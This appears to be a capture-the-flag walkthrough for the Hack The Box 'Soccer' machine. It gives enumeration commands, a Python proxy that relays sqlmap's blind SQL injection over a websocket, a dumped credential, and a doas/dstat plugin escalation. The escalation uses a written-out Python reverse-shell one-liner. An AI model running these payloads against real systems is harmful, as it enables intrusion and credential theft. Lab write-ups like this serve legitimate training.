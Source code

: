 ```yaml
---
title: Soccer
author: 0xskar
date: 2023-01-01 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [web, wfuzz, websocket, http server, doas, dstat, linux]
---
```


<https://app.hackthebox.com/machines/> 

Enumerate a webserver to find a websocket vulnerability. Setup a http server to intercept requests. Privilege escalation with a misconfigured executable.

Starting with nmap scans we have a few open ports 22 ssh and port 80 webserver that we need to add to /etc/hosts soccer.htb.

start enumerating the host scanning for subdomains with wfuzz and subdirectories with feroxbuster

- `wfuzz -c -w /usr/share/seclists/Discovers/DNS/bitquard-subdomains-top100000.txt - 'http://soccer.htb' -H "Host: FUZZ.soccer.htb" --hc 301,302`
- `feroxbuster -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php`

During scans we find a "<a href="https://tinyfilemanager.github.io/">Tiny File Manager</a>" 

Checking the github the default credentials do work, we can upload a shell here?

`/var/www/html/tiny/uploads` has permissions to upload and we get a callback as www-data after setting up a listener.

during a linpeas scan we end up finding `soc-player.soccer.htb` which is another site with a login...

Checking the source on the /check page wqe find a websocket. I've literally never had to deal with or know how to deal with this but I found some help? https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh

```
curl -i -s -k -X $'GET' \
    -H $'Host: soc-player.soccer.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://soc-player.soccer.htb/check' -H $'Upgrade-Insecure-Requests: 1' -H $'If-None-Match: W/\"12e9-jepY6GiJmK+3NHavK46gs9vINZM\"' \
    -b $'connect.sid=s%3AKI5S00CPO6HI-LF23kQn6GqHwWQxa2Nh.ljAb1hQUlzyU6qz4iPBlLwBKc5n4UNxapAIi%2Fhb0%2Bik' \
    $'http://soc-player.soccer.htb/check'
```

Inspecting the check page we find a websocket

```
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
```

read more about exploiting this <a href="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html">here</a>.

We start off by hosting a http.server that will connect to the websocket so we can send through requests to dump the database.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

- run sqlmap and dump the database `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

- dump the soccer_db `sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --dump`

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

- login via ssh

- `find / -type f -perm -u=s 2>/dev/null`

We see doas here. check the config for doas

- `find / -name *doas* 2>/dev/null`

`permit nopass player as root cmd /usr/bin/dstat`

this mean we can use doas to execute dstat as root 

dstat is a tool for generating system resouce statustics it allows users to create custom plugins and execute them by adding the `--myplugin` options.

find the stat directory

- `find / -type d -name dstat 2>/dev/null`

create a plugin in the directory

```
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

dstat will recognize pluds under this directory. we can check if the plugin has been added by executing `dstat --list | grep oskar`

after setting up a listener we recieve a root shell.


    

